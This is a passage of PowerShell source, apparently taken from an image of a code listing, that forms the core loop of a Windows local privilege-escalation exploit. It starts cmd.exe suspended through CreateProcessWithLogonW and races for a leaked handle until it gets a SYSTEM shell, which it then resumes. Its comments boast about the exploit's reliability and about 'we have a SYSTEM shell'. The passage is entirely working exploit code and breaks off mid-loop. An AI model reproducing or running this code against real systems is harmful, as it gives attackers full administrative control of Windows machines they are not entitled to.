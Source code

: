 		# ProcessInfo Struct
		$ProcessInfo = New-Object PROCESS_INFORMATION
		
		# CreateProcessWithLogonW --> lpCurrentDirectory
		$GetCurrentPath = (Get-Item -Path ".\" -Verbose).FullName
		
		# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
		$CallResult = [Advapi32]::CreateProcessWithLogonW(
			"user", "domain", "pass",
			0x00000002, "C:\Windows\System32\cmd.exe", "",
			0x00000004, $null, $GetCurrentPath,
			[ref]$StartupInfo, [ref]$ProcessInfo)
		
		#---
		# Make sure CreateProcessWithLogonW ran successfully! If not, skip loop.
		#---
		# Missing this check used to cause the exploit to fail sometimes.
		# If CreateProcessWithLogon fails OpenProcessToken won't succeed
		# but we obviously don't have a SYSTEM shell :'( . Should be 100%
		# reliable now!
		#---
		if (!$CallResult) {
			continue
		}
			
		$hTokenHandle = [IntPtr]::Zero
		$CallResult = [Advapi32]::OpenProcessToken($ProcessInfo.hProcess, 0x28, [ref]$hTokenHandle)
		# If we can't open the process token it's a SYSTEM shell!
		if (!$CallResult) {
			echo "[!] Holy Handle Leak Potato, we have a SYSTEM shell !!!!!!`n"
			echo "[!] 637 fuck3d w1nd0w5 `n"
			$CallResult = [Kernel32]::ResumeThread($ProcessInfo.hThread)
			$StartTokenRace.Stop()
			$SafeGuard.Stop()
			Return
		}
			